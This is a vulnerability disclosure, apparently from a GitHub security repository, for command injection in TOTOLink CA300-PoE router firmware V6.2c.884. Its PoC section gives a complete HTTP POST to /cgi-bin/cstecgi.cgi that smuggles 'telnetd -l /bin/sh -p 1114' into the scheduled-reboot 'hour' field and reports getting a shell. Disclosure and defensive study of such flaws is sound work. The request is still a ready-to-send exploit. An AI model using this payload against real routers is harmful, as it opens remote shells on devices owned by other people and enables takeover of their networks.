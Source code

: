 # TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA300-PoE

Version:V6.2c.884

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `ap.so` binary:

In `QuickSetting` function, `hour、minute` is directly passed by the attacker, so we can control the `hour、minute` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `hour` as **`telnetd -l /bin/sh -p 1114`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 397
Origin: http://192.168.0.3
Connection: close
Referer: http://192.168.0.3/adm/status.asp
Cookie: SESSION_ID=2:1750083078:2

{"topicurl":"setting/QuickSetting","LanDhcpcSwitch":"1","AuthPassword":"admin","ModifyPassword":"","Ipaddr":"","Mask":"","Gateway":"","Dns1":"","Dns2":"","APName":"","Ssid2g":"","WlanKey2g":"admin","Channel2g":"admin","Keymode2g":"admin","TxPower2g":"admin","Action":"admin","SchdReboot":{"mode":"1","week":"0","hour":"'`telnetd -l /bin/sh -p 1114`'","minute":"pjqwudi","recHour":"0"}}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
